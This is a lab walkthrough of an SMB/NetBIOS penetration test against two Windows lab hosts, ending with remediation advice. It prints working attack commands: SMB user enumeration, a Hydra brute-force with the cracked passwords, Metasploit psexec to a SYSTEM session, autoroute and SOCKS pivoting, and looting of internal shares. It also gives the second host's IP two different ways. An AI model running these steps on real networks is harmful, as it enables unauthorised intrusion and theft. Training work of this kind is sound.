# NetBIOS Hacking

**Classification:** Host & Network Penetration Testing / Network-Based Attacks<br>
**Target 1:** demo.ine.local — Windows Server 2012 R2 (ATTACKDEFENSE)<br>
**Target 2:** demo1.ine.local — 10.2.18.218 (Windows Server 2008 R2–2012, reachable only via pivot)<br>
**Objective:** Exploit the target(s) and find the flag.

> The lab IP for `demo.ine.local` changed between sessions (`10.2.29.118` and later
> `10.2.23.13`); the screenshots reflect both — the methodology is identical.

## 1. Executive Summary

The primary host exposes a dangerous SMB/NetBIOS configuration (SMBv1 enabled, message
signing disabled). After enumerating users over SMB, a short Hydra brute-force yields valid
credentials, and Metasploit's `psexec` gives a `NT AUTHORITY\SYSTEM` Meterpreter session.
From there we pivot with `autoroute` + a SOCKS proxy to reach a second, internal-only host
and read the flag from its file shares.

## 2. Recon

Confirming connectivity to the primary target.

```bash
ping -c 4 demo.ine.local      # 10.2.29.118
```



Service scan — Windows RPC, NetBIOS (139), SMB (445) and RDP (3389) are open.

```bash
nmap -sV 10.2.29.118
```



The second host (`demo1.ine.local`, 10.2.16.120) does not respond — it is not directly
reachable and will require pivoting.

```bash
ping -c 4 demo1.ine.local
```



Default scripts against 139/445 confirm the OS and the weak SMB posture.

```bash
nmap -sV -sC -p139,445 10.2.29.118
```



A UDP scan of the NetBIOS ports.

```bash
nmap -sU -p 137,138,139 10.2.29.118
```



## 3. SMB Enumeration

`smb-protocols` shows **SMBv1 (NT LM 0.12)** is still enabled — dangerous.

```bash
nmap -p445 --script smb-protocols 10.2.23.13
```



`smb-security-mode` shows **message signing disabled**.

```bash
nmap -p445 --script smb-security-mode 10.2.23.13
```



`smb-enum-users` enumerates local accounts, including `admin`, `Administrator` and `root`.

```bash
nmap -p445 --script smb-enum-users.nse 10.2.23.13
```



Anonymous login succeeds and lists the shares.

```bash
smbclient -L 10.2.23.13
```



## 4. Credential Brute-Force

Building a user list from the enumeration and brute-forcing SMB with Hydra.

```bash
# users.txt: admin / administrator / root
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.2.23.13 smb
```



Three valid passwords are recovered.

```
admin:tinkerbell | administrator:password1 | root:elizabeth
```



## 5. Exploitation (psexec → SYSTEM)

Using the recovered `admin` credentials with `psexec`.

```bash
use exploit/windows/smb/psexec
set SMBUser admin
set SMBPass tinkerbell
set RHOSTS 10.2.23.13
exploit
```



```bash
sysinfo
getuid        # NT AUTHORITY\SYSTEM
```



Migrating into `explorer.exe` for a more stable session.

```bash
pgrep explorer
migrate 2800
```



## 6. Reaching the Second Host

From a shell on the first host, the internal second host (`10.2.18.218`) is reachable.

```bash
shell
ping 10.2.18.218
```



Adding a route to its subnet with `autoroute` and backgrounding the session.

```bash
run autoroute -s 10.2.18.0/24
background
```



## 7. SOCKS Proxy + Proxychains

Checking the proxychains version, then starting the matching SOCKS proxy module.

```bash
cat /etc/proxychains4.conf      # VER 4.x
```



```bash
use auxiliary/server/socks_proxy
set VERSION 4a
set SRVPORT 9050
exploit
```



Confirming the proxy is listening.

```bash
netstat -antp        # 0.0.0.0:9050 LISTEN ruby
```



## 8. Scanning & Looting the Second Host

Scanning the second host through the proxy.

```bash
proxychains nmap 10.2.18.218 -sT -Pn -sV -p 445
```



From the first host's shell, enumerating and mounting its shares.

```cmd
net view 10.2.18.218
```



```cmd
net use D: \\10.2.18.218\Documents
net use K: \\10.2.18.218\K
dir D:
dir K:
```

The `Documents` share contains `FLAG2.txt` (and `Confidential.txt`).



## 9. Remediation Recommendations

1. **Disable SMBv1** and **require SMB signing** on all hosts.
2. **Enforce strong password policies** and lockout thresholds — the accounts fell to a
   tiny wordlist; disable/restrict the `Guest` and unused local accounts.
3. **Disable anonymous/null SMB enumeration** (`RestrictAnonymous`) so user and share
   listing is not available pre-auth.
4. **Segment the network** so a single compromised host cannot pivot freely to internal
   servers; restrict lateral SMB (445/139) with host firewalls.
